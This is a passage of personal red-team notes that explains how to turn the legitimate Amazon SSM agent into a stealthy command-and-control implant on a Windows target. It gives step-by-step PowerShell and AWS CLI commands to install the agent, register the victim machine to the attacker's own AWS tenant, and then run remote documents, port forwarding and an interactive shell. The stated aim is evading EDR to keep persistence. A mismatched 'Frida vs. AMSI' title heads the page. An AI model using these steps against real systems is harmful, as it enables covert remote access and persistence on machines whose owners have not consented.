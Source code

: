```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. 

Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from [https://github.com/aws/amazon-ssm-agent](https://github.com/aws/amazon-ssm-agent) and build for Windows.  
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as a local administrator.  
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.  
Step 4: Create a new hybrid activation. Record the activation code and ID.  

Step 5: If required, set proxy information on the target machine:

```powershell
set http_proxy=http://hostname:port
set https_proxy=http://hostname:port
```

Step 6: Using a local administrator account, register the target machine with AWS:

```powershell
.\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
.\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell (Windows Server only), go to [https://github.com/rprichard/winpty/](https://github.com/rprichard/winpty/) and download the latest release. Then transfer `winpty.dll` and `winpty-agent.exe` to:

- `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`